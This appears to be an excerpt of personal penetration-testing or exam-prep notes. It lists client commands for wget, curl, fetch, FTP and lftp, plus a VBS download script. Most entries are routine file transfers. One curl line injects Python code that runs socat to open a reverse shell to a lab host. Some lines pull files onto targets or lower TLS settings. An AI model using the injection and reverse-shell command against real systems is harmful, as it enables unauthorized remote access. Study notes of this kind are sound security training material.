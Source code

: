                 --adjust-extension \ # Save files with .html on the end.
                --span-hosts \ # Include necessary assets from offsite as well.
                --convert-links \ # Update links to still work in the static version.
                --restrict-file-names=windows \ # Modify filenames to work in Windows as well.
                --domains yoursite.com \ # Do not follow links outside this domain.
                --no-parent \ # Don't follow links outside the directory you pass in.
                    yoursite.com/whatever/path # The URL to download
    - fetch(80) client commands
        > fetch http://10.10.14.28:8088/grouping
    - curl(80) client commands
        - SImple get to server to see reply
            >curl -v http://10.10.10.10/home.php
        - GET
            - Get and write to a file
                > curl https://example.com -k -o my.file
                > curl http://example.com -s -o my.file
            - Get and write to stdout
                > curl -O google-wget.txt www.google.com
        - POST
            > curl -d "user=user1&pass=abcd" POST http://example.com/login
        - POST with --data
            > curl -X POST --data "code=os.system('socat TCP:192.168.49.153:80 EXEC:bash')" http://192.168.153.117:50000/verify --proxy 127.0.0.1:8080
        - SEND FILE
            > curl --form "fileupload=#myfile.txt" https://example.com/resource.cgi
        - How to change the version of TLS
            > sudo vi /etc/ssl/openssl.cnf
            - Change "MinProtocol = TLSv1.2" to "MinProtocol = TLS1.0"
            - Save and run again
    - VBS wget script(80) for windows commands
        - copy code from ~/notes/exam/wget.vbs to windows, name "wget.vbs"
        > cscript wget.vbs http://192.168.1.156/filesharedonhttpserver.txt
    - FTP(21) client commands
        > ftp 10.10.10.11
        > ftp 10.10.10.11 33021
        -lftp
            - Auto login
                > lftp -u ftpuser,ftppassword sftp://10.10.10.202/conf-backups
                > lftp -u anonymous sftp://10.10.10.202/conf-backups
                > lftp -u anonymous ftp://10.10.10.202:1221
                - you may need to se passive mode false 
                > lftp -e "set ftp:passive-mode false" -u admin,admin 192.168.69.56
                - Other options to disable if not working
                    set ftp:ssl-allow false
                    set ftp:passive-mode off
                    set ssl:verify-certificate no
            - Auto login / passive mode
                > lftp -e 'set ftp:passive-mode true' -u anonymous 192.168.239.68
            - Delete files with globbing
                > glob -a mrm -rf myfiles*
            - Mirror
                > lftp -e "mirror -R /backups ./conf-backups" -u ftpuser,ftppassword sftp://10.0.8.202
            - Find recursivly (after connecting with lftp)
                > find -l
        - Recusivly download all files
            > wget -r ftp://anonymous:@192.168.153.127:30021
